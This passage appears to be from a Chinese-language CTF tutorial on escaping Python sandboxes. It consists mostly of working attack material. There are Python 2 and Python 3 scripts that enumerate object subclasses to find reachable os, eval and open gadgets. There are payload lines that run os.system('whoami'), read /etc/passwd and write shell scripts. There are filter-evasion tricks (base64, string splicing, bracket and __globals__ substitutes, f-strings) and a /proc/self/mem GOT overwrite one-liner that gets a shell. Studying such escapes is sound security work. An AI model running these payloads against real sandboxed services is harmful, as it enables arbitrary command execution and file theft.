                'nntplib': ['__builtins__'], 'profile': ['os', 'sys', '__builtins__'],
                'genericpath': ['os', '__builtins__'], 'stat': ['__builtins__'], '__phello__.foo': ['__builtins__'],
                'sched': ['__builtins__'], 'statvfs': ['__builtins__'], 'trace': ['os', 'sys', '__builtins__'],
                'warnings': ['sys', '__builtins__'], 'symbol': ['__builtins__'], 'sets': ['__builtins__'],
                'htmlentitydefs': ['__builtins__'], 'urllib2': ['os', 'sys', '__builtins__'],
                'SimpleXMLRPCServer': ['os', 'sys', '__builtins__'], 'sunaudio': ['__builtins__'],
                'pdb.doc': ['os', '__builtins__'], 'asynchat': ['__builtins__'], 'user': ['os', '__builtins__'],
                'xmllib': ['__builtins__'], 'codeop': ['__builtins__'], 'plat-next3': ['os', 'sys', '__builtins__'],
                'types': ['__builtins__'], 'argparse': ['__builtins__'], 'uuid': ['os', 'sys', '__builtins__'],
                'plat-aix4': ['os', 'sys', '__builtins__'], 'plat-aix3': ['os', 'sys', '__builtins__'],
                'ssl': ['os', 'sys', '__builtins__'], 'poplib': ['__builtins__'], 'xmlrpclib': ['__builtins__'],
                'difflib': ['__builtins__'], 'urlparse': ['__builtins__'], 'linecache': ['os', 'sys', '__builtins__'],
                '_strptime': ['__builtins__'], 'htmllib': ['__builtins__'], 'site-packages': ['__builtins__'],
                'posixpath': ['os', 'sys', '__builtins__'], 'stringold': ['__builtins__'],
                'gzip': ['os', 'sys', '__builtins__', 'open'], 'mhlib': ['os', 'sys', '__builtins__'],
                'rlcompleter': ['__builtins__'], 'hmac': ['__builtins__']}
target_modules = ['os', 'platform', 'subprocess', 'timeit', 'importlib', 'codecs', 'sys']
target_functions = ['__import__', '__builtins__', 'exec', 'eval', 'execfile', 'compile', 'file', 'open']
all_targets = list(set(find_modules.keys() + target_modules + target_functions))
all_modules = list(set(find_modules.keys() + target_modules))
subclasses = ().__class__.__bases__[0].__subclasses__()
sub_name = [s.__name__ for s in subclasses]
# 第一种遍历,如:().__class__.__bases__[0].__subclasses__()[40]('./test.py').read()
print('----------1-----------')
for i, s in enumerate(sub_name):
    for f in all_targets:
        if f == s:
            if f in target_functions:
                print(i, f)
            elif f in all_modules:
                target = find_modules[f]
                sub_dict = subclasses[i].__dict__
                for t in target:
                    if t in sub_dict:
                        print(i, f, target)
print('----------2-----------')
# 第二种遍历,如:().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
for i, sub in enumerate(subclasses):
    try:
        more = sub.__init__.func_globals
        for m in all_targets:
            if m in more:
                print(i, sub, m, find_modules.get(m))
    except Exception as e:
        pass
print('----------3-----------')
# 第三种遍历,如:().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").system("ls")')
for i, sub in enumerate(subclasses):
    try:
        more = sub.__init__.func_globals.values()
        for j, v in enumerate(more):
            for f in all_targets:
                try:
                    if f in v:
                        if f in target_functions:
                            print(i, j, sub, f)
                        elif f in all_modules:
                            target = find_modules.get(f)
                            sub_dict = v[f].__dict__
                            for t in target:
                                if t in sub_dict:
                                    print(i, j, sub, f, target)
                except Exception as e:
                    pass
    except Exception as e:
        pass
print('----------4-----------')
# 第四种遍历:如:().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']("os").system("ls")
# <class 'warnings.catch_warnings'>类很特殊，在内部定义了_module=sys.modules['warnings']，然后warnings模块包含有__builtins__，不具有通用性，本质上跟第一种方法类似
for i, sub in enumerate(subclasses):
    try:
        more = sub()._module.__builtins__
        for f in all_targets:
            if f in more:
                print(i, f)
    except Exception as e:
        pass
```

 - 第一种方式`Payload`:

```python
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
''.__class__.__mro__[2].__subclasses__()[40]('/tmp/shell.sh', 'w').write('/bin/bash xxxx')
```

 - 第二种方式`Payload`:

```python
# linecache利用
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('whoami')
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['sys'].modules['os'].system('whoami')
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['__builtins__']['__import__']('os').system('whoami')

# __builtins__利用，包括__import__、file、open、execfile、eval、结合exec的compile等
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('whoami')
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('E:/passwd').read()
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['open']('E:/test.txt', 'w').write('hello')
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['execfile']('E:/exp.py')
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").system("whoami")')
exec(''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['compile']('__import__("os").system("whoami")', '<string>', 'exec'))

# sys利用
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['sys'].modules['os'].system('whoami')

# types利用，后面还是通过__builtins__实现利用
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['types'].__dict__['__builtins__']['__import__']('os').system('whoami')

# os利用
''.__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['os'].system('whoami')

# open利用
''.__class__.__mro__[2].__subclasses__()[78].__init__.__globals__['open']('/etc/passwd').read()
''.__class__.__mro__[2].__subclasses__()[78].__init__.__globals__['open']('/tmp/shell.sh', 'w').write('/bin/bash xxxx')
```

 - 第三种方法`Payload`:

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.values()[13]['eval']('__import__("os").system("whoami")')
# ......其它的和上面的差不多.
```

 - 第四种方法`Payload`:

```python
''.__class__.__mro__[2].__subclasses__()[60]()._module.__builtins__['__import__']("os").system("whoami")
```

## Python3

```python
# coding=utf-8

find_modules = {'asyncio': ['subprocess', 'sys', '__builtins__'], 'collections': ['__builtins__'],
                'concurrent': ['__builtins__'], 'ctypes': ['__builtins__'], 'curses': ['__builtins__'],
                'dbm': ['os', 'sys', '__builtins__', 'open'], 'distutils': ['sys', '__builtins__'],
                'email': ['__builtins__'], 'encodings': ['codecs', 'sys', '__builtins__'],
                'ensurepip': ['os', 'sys', '__builtins__'], 'html': ['__builtins__'], 'http': ['__builtins__'],
                'idlelib': ['__builtins__'], 'importlib': ['sys', '__import__', '__builtins__'],
                'json': ['codecs', '__builtins__'], 'lib2to3': ['__builtins__'],
                'logging': ['os', 'sys', '__builtins__'], 'msilib': ['os', 'sys', '__builtins__'],
                'multiprocessing': ['sys', '__builtins__'], 'pydoc_data': ['__builtins__'], 'sqlite3': ['__builtins__'],
                'test': ['__builtins__'], 'tkinter': ['sys', '__builtins__'], 'turtledemo': ['__builtins__'],
                'unittest': ['__builtins__'], 'urllib': ['__builtins__'],
                'venv': ['os', 'subprocess', 'sys', '__builtins__'], 'wsgiref': ['__builtins__'],
                'xml': ['__builtins__'], 'xmlrpc': ['__builtins__'], '__future__': ['__builtins__'],
                '__phello__.foo': ['__builtins__'], '_bootlocale': ['sys', '__builtins__'],
                '_collections_abc': ['sys', '__builtins__'], '_compat_pickle': ['__builtins__'],
                '_compression': ['__builtins__'], '_dummy_thread': ['__builtins__'], '_markupbase': ['__builtins__'],
                '_osx_support': ['os', 'sys', '__builtins__'], '_pydecimal': ['__builtins__'],
                '_pyio': ['os', 'codecs', 'sys', '__builtins__', 'open'], '_sitebuiltins': ['sys', '__builtins__'],
                '_strptime': ['__builtins__'], '_threading_local': ['__builtins__'], '_weakrefset': ['__builtins__'],
                'abc': ['__builtins__'], 'aifc': ['__builtins__', 'open'], 'antigravity': ['__builtins__'],
                'argparse': ['__builtins__'], 'ast': ['__builtins__'], 'asynchat': ['__builtins__'],
                'asyncore': ['os', 'sys', '__builtins__'], 'base64': ['__builtins__'],
                'bdb': ['os', 'sys', '__builtins__'], 'binhex': ['os', '__builtins__'], 'bisect': ['__builtins__'],
                'bz2': ['os', '__builtins__', 'open'], 'cProfile': ['__builtins__'],
                'calendar': ['sys', '__builtins__'], 'cgi': ['os', 'sys', '__builtins__'],
                'cgitb': ['os', 'sys', '__builtins__'], 'chunk': ['__builtins__'], 'cmd': ['sys', '__builtins__'],
                'code': ['sys', '__builtins__'], 'codecs': ['sys', '__builtins__', 'open'], 'codeop': ['__builtins__'],
                'colorsys': ['__builtins__'], 'compileall': ['os', 'importlib', 'sys', '__builtins__'],
                'configparser': ['os', 'sys', '__builtins__'], 'contextlib': ['sys', '__builtins__'],
                'copy': ['__builtins__'], 'copyreg': ['__builtins__'], 'crypt': ['__builtins__'],
                'csv': ['__builtins__'], 'datetime': ['__builtins__'], 'decimal': ['__builtins__'],
                'difflib': ['__builtins__'], 'dis': ['sys', '__builtins__'], 'doctest': ['os', 'sys', '__builtins__'],
                'dummy_threading': ['__builtins__'], 'enum': ['sys', '__builtins__'], 'filecmp': ['os', '__builtins__'],
                'fileinput': ['os', 'sys', '__builtins__'], 'fnmatch': ['os', '__builtins__'],
                'formatter': ['sys', '__builtins__'], 'fractions': ['sys', '__builtins__'],
                'ftplib': ['sys', '__builtins__'], 'functools': ['__builtins__'], 'genericpath': ['os', '__builtins__'],
                'getopt': ['os', '__builtins__'], 'getpass': ['os', 'sys', '__builtins__'],
                'gettext': ['os', 'sys', '__builtins__'], 'glob': ['os', '__builtins__'],
                'gzip': ['os', 'sys', '__builtins__', 'open'], 'hashlib': ['__builtins__'], 'heapq': ['__builtins__'],
                'hmac': ['__builtins__'], 'imaplib': ['subprocess', 'sys', '__builtins__'], 'imghdr': ['__builtins__'],
                'imp': ['os', 'importlib', 'sys', '__builtins__'],
                'inspect': ['os', 'importlib', 'sys', '__builtins__'], 'io': ['__builtins__', 'open'],
                'ipaddress': ['__builtins__'], 'keyword': ['__builtins__'], 'linecache': ['os', 'sys', '__builtins__'],
                'locale': ['sys', '__builtins__'], 'lzma': ['os', '__builtins__', 'open'],
                'macpath': ['os', '__builtins__'], 'macurl2path': ['os', '__builtins__'],
                'mailbox': ['os', '__builtins__'], 'mailcap': ['os', '__builtins__'],
                'mimetypes': ['os', 'sys', '__builtins__'], 'modulefinder': ['os', 'importlib', 'sys', '__builtins__'],
                'netrc': ['os', '__builtins__'], 'nntplib': ['__builtins__'], 'ntpath': ['os', 'sys', '__builtins__'],
                'nturl2path': ['__builtins__'], 'numbers': ['__builtins__'], 'opcode': ['__builtins__'],
                'operator': ['__builtins__'], 'optparse': ['os', 'sys', '__builtins__'],
                'os': ['sys', '__builtins__', 'open'], 'pathlib': ['os', 'sys', '__builtins__'],
                'pdb': ['os', 'sys', '__builtins__'], 'pickle': ['codecs', 'sys', '__builtins__'],
                'pickletools': ['codecs', 'sys', '__builtins__'], 'pipes': ['os', '__builtins__'],
                'pkgutil': ['os', 'importlib', 'sys', '__builtins__'],
                'platform': ['os', 'platform', 'subprocess', 'sys', '__builtins__'],
                'plistlib': ['os', 'codecs', '__builtins__'], 'poplib': ['__builtins__'],
                'posixpath': ['os', 'sys', '__builtins__'], 'pprint': ['__builtins__'],
                'profile': ['os', 'sys', '__builtins__'], 'pstats': ['os', 'sys', '__builtins__'],
                'pty': ['os', 'sys', '__builtins__'],
                'py_compile': ['os', 'importlib', 'sys', '__builtins__', 'compile'],
                'pyclbr': ['importlib', 'sys', '__builtins__'],
                'pydoc': ['os', 'platform', 'importlib', 'sys', '__builtins__'], 'queue': ['__builtins__'],
                'quopri': ['__builtins__'], 'random': ['__builtins__'], 're': ['__builtins__', 'compile'],
                'reprlib': ['__builtins__'], 'rlcompleter': ['__builtins__'],
                'runpy': ['importlib', 'sys', '__builtins__'], 'sched': ['__builtins__'],
                'secrets': ['os', '__builtins__'], 'selectors': ['sys', '__builtins__'],
                'shelve': ['__builtins__', 'open'], 'shlex': ['os', 'sys', '__builtins__'],
                'shutil': ['os', 'sys', '__builtins__'], 'signal': ['__builtins__'],
                'site': ['os', 'sys', '__builtins__'], 'smtpd': ['os', 'sys', '__builtins__'],
                'smtplib': ['sys', '__builtins__'], 'sndhdr': ['__builtins__'], 'socket': ['os', 'sys', '__builtins__'],
                'socketserver': ['os', 'sys', '__builtins__'], 'sre_compile': ['__builtins__', 'compile'],
                'sre_constants': ['__builtins__'], 'sre_parse': ['__builtins__'], 'ssl': ['os', 'sys', '__builtins__'],
                'stat': ['__builtins__'], 'statistics': ['__builtins__'], 'string': ['__builtins__'],
                'stringprep': ['__builtins__'], 'struct': ['__builtins__'], 'subprocess': ['os', 'sys', '__builtins__'],
                'sunau': ['__builtins__', 'open'], 'symbol': ['__builtins__'], 'symtable': ['__builtins__'],
                'sysconfig': ['os', 'sys', '__builtins__'], 'tabnanny': ['os', 'sys', '__builtins__'],
                'tarfile': ['os', 'sys', '__builtins__', 'open'], 'telnetlib': ['sys', '__builtins__'],
                'tempfile': ['__builtins__'], 'textwrap': ['__builtins__'], 'this': ['__builtins__'],
                'threading': ['__builtins__'], 'timeit': ['timeit', 'sys', '__builtins__'], 'token': ['__builtins__'],
                'tokenize': ['sys', '__builtins__', 'open'], 'trace': ['os', 'sys', '__builtins__'],
                'traceback': ['sys', '__builtins__'], 'tracemalloc': ['os', '__builtins__'],
                'tty': ['os', '__builtins__'], 'turtle': ['sys', '__builtins__'], 'types': ['__builtins__'],
                'typing': ['sys', '__builtins__'], 'uu': ['os', 'sys', '__builtins__'],
                'uuid': ['os', 'sys', '__builtins__'], 'warnings': ['sys', '__builtins__'],
                'wave': ['sys', '__builtins__', 'open'], 'weakref': ['sys', '__builtins__'],
                'webbrowser': ['os', 'subprocess', 'sys', '__builtins__', 'open'], 'xdrlib': ['__builtins__'],
                'zipapp': ['os', 'sys', '__builtins__'], 'zipfile': ['os', 'importlib', 'sys', '__builtins__']}
target_modules = ['os', 'platform', 'subprocess', 'timeit', 'importlib', 'codecs', 'sys']
target_functions = ['__import__', '__builtins__', 'exec', 'eval', 'execfile', 'compile', 'file', 'open']
all_targets = list(set(list(find_modules.keys()) + target_modules + target_functions))
all_modules = list(set(list(find_modules.keys()) + target_modules))
subclasses = ().__class__.__bases__[0].__subclasses__()
sub_name = [s.__name__ for s in subclasses]
# 第一种遍历,如:().__class__.__bases__[0].__subclasses__()[40]('./test.py').read()
print('----------1-----------')
for i, s in enumerate(sub_name):
    for f in all_targets:
        if f == s:
            if f in target_functions:
                print(i, f)
            elif f in all_modules:
                target = find_modules[f]
                sub_dict = subclasses[i].__dict__
                for t in target:
                    if t in sub_dict:
                        print(i, f, target)
print('----------2-----------')
# 第二种遍历,如:().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
for i, sub in enumerate(subclasses):
    try:
        more = sub.__init__.__globals__
        for m in all_targets:
            if m in more:
                print(i, sub, m, find_modules.get(m))
    except Exception as e:
        pass
print('----------3-----------')
# 第三种遍历,如:().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.values()[13]['eval']('__import__("os").system("ls")')
for i, sub in enumerate(subclasses):
    try:
        more = sub.__init__.__globals__.values()
        for j, v in enumerate(more):
            for f in all_targets:
                try:
                    if f in v:
                        if f in target_functions:
                            print(i, j, sub, f)
                        elif f in all_modules:
                            target = find_modules.get(f)
                            sub_dict = v[f].__dict__
                            for t in target:
                                if t in sub_dict:
                                    print(i, j, sub, f, target)
                except Exception as e:
                    pass
    except Exception as e:
        pass
print('----------4-----------')
# 第四种遍历:如:().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']("os").system("ls")
# <class 'warnings.catch_warnings'>类很特殊，在内部定义了_module=sys.modules['warnings']，然后warnings模块包含有__builtins__，不具有通用性，本质上跟第一种方法类似
for i, sub in enumerate(subclasses):
    try:
        more = sub()._module.__builtins__
        for f in all_targets:
            if f in more:
                print(i, f)
    except Exception as e:
        pass
```

# 绕过方法
## reload
即使使用`del`删除了危险模块, 依旧可以使用`reload`函数来重新加载这些危险模块.

```python
del __builtins__.__dict__['__import__']
del __builtins__.__dict__['eval']
del __builtins__.__dict__['execfile']
del __builtins__.__dict__['input']

reload(__builtins__)
import os
dit(os)
```

## f修饰符
在`PEP 498`中引入了新的字符串类型修饰符: `f`或`F`, 用`f`修饰的字符串将可以执行代码, 只有在`python3.6.0+`的版本才有这个方法. 简单来说, 可以理解为字符串外层套了一个`exec()`.

```python
f'{__import__("os").system("whoami")}'
```

## 存在引号
```text
'f''lag'
'f'+'lag'
'galf'[::-1]
'%clag'%(102)
chr(102)+'lag'
\146\154\141\147
\x66\x6c\x61\x67
'flab'.replace('b','g')
a='fl';b='ag';f'{a}{b}'
python2还可以通过hex(1718378855)[2:].decode('hex')这种方式得到任意字符,但是在python3中hex的解码被移动到了codecs.encode()中
```

## 不存在引号
```text
chr(102)+chr(108)+chr(97)+chr(103)
str().join(list(dict(fl=1,ag=2).keys()))
或者通过dir(dir)[1][2]等获取单个字符然后拼接
```

## 过滤中括号
 - 调用`__getitem__`函数直接替换.
 - 调用`pop`函数替换.

```python
# 原型
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('whoami')

# __getitem__()替换中括号[]
''.__class__.__mro__.__getitem__(2).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('__import__')('os').system('whoami')

# pop()替换中括号[]，结合__getitem__()利用
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('__import__')('os').system('whoami')
```

## base64编码

```python
import base64
base64.b64encode('__import__')
base64.b64encode('os')
__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))
```

## 过滤__globals__
 - 可以使用`func_globals`直接替换.
 - 可以使用`__getattribute__('__globa'+'ls__');`

```python
# 原型是调用 __globals__.
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('whoami')

# 如果过滤了 __globals__, 可直接替换为 func_globals.
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['__builtins__']['__import__']('os').system('whoami')

# 也可以通过拼接字符串得到方式绕过.
''.__class__.__mro__[2].__subclasses__()[59].__init__.__getattribute__("__glo"+"bals__")['__builtins__']['__import__']('os').system('whoami')
```


## write 修改 got 表 
实际上是一个`/proc/self/mem`的内存操作方法`/proc/self/mem`是内存镜像, 能够通过它来读写到进程的所有内存, 包括可执行代码, 如果能获取到`Python`一些函数的偏移, 如`system`等, 便可以通过覆写`got`表达到`getshell`的目的. 例如下面的命令语句中, 第一个地址是`system`的偏移, 第二个是`fopen`的偏移, 可以通过`objdump`获取相关信息.

```sh
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))
```

# 参考
 - [Python 沙盒](https://ctf-wiki.org/pwn/sandbox/python/python-sandbox-escape/#writegot)

 - [python沙箱逃逸](https://dar1in9s.github.io/2020/03/20/python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/#python-%E7%BB%95%E8%BF%87%E6%B2%99%E7%9B%92%E4%B8%AD%E5%B8%B8%E8%A7%81%E7%9A%84%E5%87%BD%E6%95%B0%E3%80%81%E5%B1%9E%E6%80%A7)

 - [Python沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/)